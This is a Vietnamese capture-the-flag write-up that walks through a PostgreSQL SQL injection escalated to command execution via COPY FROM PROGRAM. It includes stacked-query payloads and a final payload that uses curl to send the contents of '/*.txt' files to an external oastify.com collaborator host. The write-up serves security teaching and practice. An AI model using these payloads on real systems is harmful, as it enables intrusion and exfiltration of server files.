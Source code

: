 Baby SQL Injection to RCE
![image](img/img1.png)


# 1. Brainstorm:
## Thông tin đề bài cho
* Server dùng dbms là Postgre,php và Nginx
* Mục tiêu là file /flagXXXX.txt (XXXX là random nha)
* Câu query:
![image](img/img2.png)

#### Không parameterized query -> SQLi được

## Kiểm tra xem có thể thực hiện stacked query trên dbms không bằng payload:
#### ' or 1=1; select pg_sleep(10); --
![image](img/img6.jpeg)
Oke, dính rồi
#### --> Có thể stacked query được

## Đề bài hỏi có execute được os command không ? 
Vậy thì hint đây rồi, tìm cách rce bằng os command.
Tìm được payload như sau
![image](img/img3.png)

# 2. Exploit:
## Phân tích payload
* Ý tưởng của payload là tạo 1 table cmd_exec với column là cmd_output dùng để lưu data của os command được thực thi
* OS command sẽ được thực thi nhờ hàm Copy FROM PROGRAM và lưu vào bên trong cmd_exec table đã tạo
* Sau đó sẽ gọi ra nhờ vào SELECT * FROM cmd_exec
## Craft payload
Không thể in trực tiếp dữ liệu của table ra được vì trong code php trả về cho client chỉ in ra $messenger lấy từ $username nhập vào (Nghĩa là ở đây chỉ in ra câu payload) 
#### --> Đây là Blind SQL Injection. Vậy thì mình out-bound data ra ngoài webhook hoặc burp collaborator thôi.
## POC
#### Payload: 
#### ' OR 1=1; COPY cmd_exec FROM PROGRAM 'curl -X POST --data "data=`cat /*.txt`" 7s0mfarpjzoo6ejxf17tb9ehe8kz8uwj.oastify.com'; --

![image](img/img4.jpeg)
![image](img/img5.jpeg)


## Ngoài lề
Trước khi mình out-bound thì mình đã thử arbitrary write file nhưng có vẻ chỉ có superuser mới có quyền write file :v


